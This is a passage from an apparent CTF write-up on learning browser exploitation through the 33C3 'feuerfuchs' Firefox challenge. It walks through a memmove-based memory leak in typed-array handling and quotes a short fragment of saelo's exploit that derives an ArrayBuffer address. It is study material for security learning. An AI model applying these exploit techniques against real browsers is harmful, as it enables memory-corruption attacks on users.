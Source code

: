 
Inside the `MoveTypedArrayElements` will call `memmove(dest, src, count)`, which in this case:
* `src` will be `view's data pointer + 88 + 40`
* `dest` will be `view's data pointer + 88`
* `count` will be `8`

Let's see what data will be copied to `dest`:

![](/assets/images/Learning-browser-exploitation-via-33C3-CTF-feuerfuchs-challenge/copy_addr.PNG)

Here `dest` = `0x7ffff7ebc558` and `src` = `0x7ffff7ebc580`, we can see the value `0x3ffffbf5e2d0` will be copied to `dest`. According to saelo's comment in the exploit:

```javascript
    // First qword in adjusted view now contains the data pointer (which is stored as a Private, thus needs to be shifted)
    var ptr = LShift1(new Int64(view));
    // ptr will point to inline data so we can calculate the address of the preceeding ArrayBuffer
    var addressOfInnerArrayBuffer = Sub(ptr, 8*8 + 8*8 + 8*12);
```
